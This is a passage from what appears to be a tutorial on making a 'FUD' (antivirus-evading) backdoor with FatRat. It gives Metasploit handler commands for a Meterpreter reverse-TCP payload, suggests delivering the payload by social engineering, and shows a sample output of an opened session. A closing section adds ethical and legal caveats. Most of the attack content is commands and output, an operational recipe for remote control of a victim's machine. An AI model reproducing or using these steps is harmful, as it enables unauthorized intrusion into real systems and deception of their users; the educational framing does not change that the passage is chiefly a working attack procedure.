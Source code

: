 #### 4. **Configure Metasploit**

After generating the payload, you need to configure Metasploit to handle the incoming connection from the payload.

```bash
msfconsole
```

Within the Metasploit console:

1. **Set Up the Handler:**
   ```bash
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set LHOST <your_ip_address>
   set LPORT <your_port_number>
   ```

2. **Run the Exploit:**
   ```bash
   exploit
   ```

#### 5. **Deliver the Payload**

The next step is to deliver the payload to the target system. This could involve social engineering techniques to persuade the target to execute the payload.

#### 6. **Establishing the Connection**

Once the target executes the payload, the Metasploit handler should catch the incoming connection, giving you a Meterpreter session on the target machine.

```plaintext
[*] Sending stage (179267 bytes) to <target_ip>
[*] Meterpreter session 1 opened (<your_ip>:<your_port> -> <target_ip>:<target_port>) at <timestamp>
```

### Ethical Considerations

- **Authorization:** Ensure you have explicit permission to test the target systems.
- **Legality:** Unauthorized access to computer systems is illegal and can result in severe penalties.
- **Responsible Use:** Use these tools only in controlled environments for ethical penetration testing and educational purposes.

By following these steps responsibly, you can demonstrate the process of creating and using a FUD backdoor with FatRat for educational purposes.











****************************************************************************************************************************************************************************************************************
